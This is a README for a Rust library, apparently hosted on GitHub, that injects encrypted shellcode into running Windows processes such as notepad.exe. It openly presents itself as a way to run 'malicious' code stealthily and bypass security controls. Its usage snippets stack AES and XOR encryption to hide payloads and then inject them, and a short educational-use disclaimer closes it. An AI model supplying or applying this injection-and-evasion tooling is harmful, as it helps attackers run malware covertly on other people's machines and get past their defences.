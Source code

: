 # Rust Process Injection (Windows Only)
[Documentation](https://swiiz.github.io/needle-rs/needle/index.html) - [Apache 2.0 License](https://github.com/Swiiz/needle-rs/blob/main/LICENSE) - [Author](https://github.com/Swiiz)

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## Features:
- Process Injection using Windows API
- Multiple encryption algorithms with the ability to stack
- Easy to use

## How to use:
- Add the following to your `Cargo.toml`

```TOML
[dependencies]
needle = { git = "https://github.com/Swiiz/needle-rs.git", features = [ "windows" ] }
```

- (**Optional**) Encrypt your shellcode using a cypher like the following:

```RUST
fn generate_payload(shellcode: Shellcode) {
    let payload = shellcode
        .into_raw()
        .aes_encrypt(&AES_KEY)
        .xor_encrypt(XOR_KEY);
    println!("Encrypted shellcode: {:#04x?}", payload);
}
```

- (**Optional**) Decrypt your payload into shellcode
- Inject the shellcode into the target process:

```RUST
const SHELL_CODE: &[u8] = include_bytes!("YOUR_PAYLOAD.bin");
const XOR_KEY: u8 = 0x42;
const AES_KEY: [u8; 32] = [ /* ... */ ];

fn main() {
    let payload = XorCypher::<AesCypher>::from(SHELL_CODE.to_vec())
        .decrypt(&XOR_KEY) // You usually don't need to stack cyphers but it works
        .decrypt(&AES_KEY);

    let process = find_process("notepad.exe").expect("Target process not found");
    if let Err(e) = inject(process, payload) {
        println!("Could not inject payload: {}", e);
    }
}
```

## Examples
- [Simple](examples/simple.rs)
- [Xor](examples/xor.rs)
- [Aes](examples/aes.rs)
- [Mixed](examples/mixed.rs)

## Contributing
If anyone is interested in implementing other platforms/methods/cyphers, please feel free to contribute 👍

## Disclaimer
Information and code provided on this repository are for educational purposes only. The creator is in no way responsible for any direct or indirect damage caused due to the misuse of the information.